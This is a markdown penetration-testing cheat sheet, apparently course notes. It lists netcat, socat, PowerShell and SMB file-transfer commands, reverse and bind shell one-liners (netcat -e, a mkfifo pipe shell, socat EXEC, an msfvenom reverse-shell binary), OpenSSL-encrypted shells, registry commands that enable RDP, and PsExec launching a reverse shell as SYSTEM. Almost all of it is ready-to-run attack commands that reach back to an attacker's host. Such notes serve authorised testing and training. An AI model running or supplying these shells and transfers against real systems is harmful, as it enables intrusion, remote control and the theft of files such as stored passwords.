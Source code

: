 ## File Transfers
- netcat
	- send wget.exe to a nc listener on port 4444:
	`nc -nv {ip-address} 4444 < /usr/share/windows-resources/binaries/wget.exe`
	- receive a file on port 4444 and name it wget.exe:
	`nc -nlvp 4444 > wget.exe`

- socat
	- Share a file called passwords.txt on port 443:
	`sudo socat TCP4-LISTEN:443,fork file:passwords.txt`
	- Receive a file being hosted on port 443 and save it to passwords.txt:
	`socat TCP4:{ip-address}:443 file:passwords.txt,create`

- powershell 
	- `Set-ExecutionPolicy Unrestricted` must be applied beforehand
	- Download wget.exe from a websever (such as a SimpleHTTPServer) :
	 `powershell -c "(new-object System.Net.WebClient).DownloadFile('http://{ip-address}/wget.exe','C:\Users\offsec\Desktop\wget.exe')" `

- SMB
	- set up a SMB server on Kali with a share called Tools in the wd
	`sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .`
	- copy a file from Kali to Windows
	`copy \\{ip-address}\tools\file.ext file.ext`
	- copy a file from Windows to Kali
	`copy file.ext \\{ip-address}\tools\file.ext`

## Reverse Shells
Victim connnects and attacker listens. Used 95% of the time.

- netcat
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `nc -nv {ip-address} 4444 -e /bin/bash` 
- socat
	- attacker runs: `sudo socat -d -d  TCP4-LISTEN:4444 STDOUT`
	- victim runs: `socat TCP4:{ip-address}:4444 EXEC:/bin/bash`
- netcat without `-e` or `-c` on victim
	- attacker runs: `nc -nlvp 4444`
	- victim runs: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {ip-address} 1234 >/tmp/f`
- msfvenom to create reverse shell binaries
	- windows: `msfvenom -p windows/x64/shell_reverse_tcp LHOST={ip-address} LPORT={port} -f exe -o reverse.exe`
	- linux: 
	- attacker can set up a listener with netcat of metasploit's multi/handler

## Bind Shells
Victim listens and attacker connects. Useful when bypassing firewalls or when reverse shells "just don't work".

- netcat
	- victim runs: `nc -nlvp 4444 -e cmd.exe`
	- attacker runs: `nc -nv 10.11.0.22 4444`

- socat
	- victim runs: `socat -d -d TCP4-LISTEN:4444 EXEC:/bin/bash`
	- attacker runs: `socat - TCP4:{ip-address}:4444`

## Encrypted shells with OpenSSL
Utilize SSL certificates to encrypt data sent between hosts

- create an openssl certificate
	- `openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 100 -out bind_shell.crt`
- concatenate the certififcate and private key into a .pem file
	- `cat bind_shell.key bind_shell.crt > bind_shell.pem`
- socat listener utilizing the cert
	- `sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash`
- socat SSL connection to listener
	- `socat - OPENSSL:{ip-address}:443,verify=0`

## Other Windows Shell-like options
- RDP
	- Create a regfile.reg file with `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\TerminalService` inside
	- `"fDenyTSConnections"=dword:00000000"`
	- `reg import regfile.reg`
	- `net start "termservice"`
	- `sc config termservice start= auto`
	- `net start termservice`

- [PSExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec): a light-weight telnet-replacement that lets you execute processes on other systems
	- `.\PsExec64.exe -accepteula -i -s C:\path\to\reverse.exe` (see msfvenom to create reverse shell binaries)